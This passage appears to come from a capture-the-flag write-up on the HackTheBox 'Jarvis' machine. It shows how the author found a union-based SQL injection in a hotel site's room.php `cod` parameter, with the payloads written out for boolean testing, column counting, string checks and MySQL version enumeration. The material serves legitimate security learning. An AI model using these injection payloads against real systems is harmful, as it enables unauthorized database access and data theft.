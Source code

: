 **What if parameter `cod` is `0`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728184411.png)

It redirects me to `index.php`?

**How about `-1`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728184442.png)

Empty result?

So maybe no IDOR vulnerability in here.

How about SQL injection?

**When we provide an non-existence hotel room ID, it shows an empty room:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728192909.png)

**In here, we can try to use payload `7 OR 1=1-- -` to see what will happened:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728193116.png)

As you can see, it worked! This is because the backend parses parameter `cod`'s value into the raw SQL query without preparing it. Since `1=1` is always `True`, it'll should get the first hotel room result.

Now that we confirmed there's a SQL injection in `/room.php`, we can try to determine what is the type of SQL injection, like Union-based, blind-based.

**After some trial and error, I found that it's a Union-based SQL injection:**
```
/room.php?cod=7 UNION ALL SELECT 1,2,3,4,5,6,7-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728193529.png)

So, there are **7 columns**, and **column 2, 3, 5 is reflected** to the page.

**We can also check column 2, 3, 5 accept string data type or not:**
```
/room.php?cod=7 UNION ALL SELECT 1,'string2','string3',4,'string5',6,7-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728193713.png)

They can!

**After that, we can enumerate and exfiltrate the entire database!!**

**Enumerate DBMS (Database Management System):**

**After trying to show different DBMS version, MySQL's `@@version` works:**
```
/room.php?cod=7 UNION ALL SELECT NULL,@@version,NULL,NULL,NULL,NULL,NULL-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728194038.png)
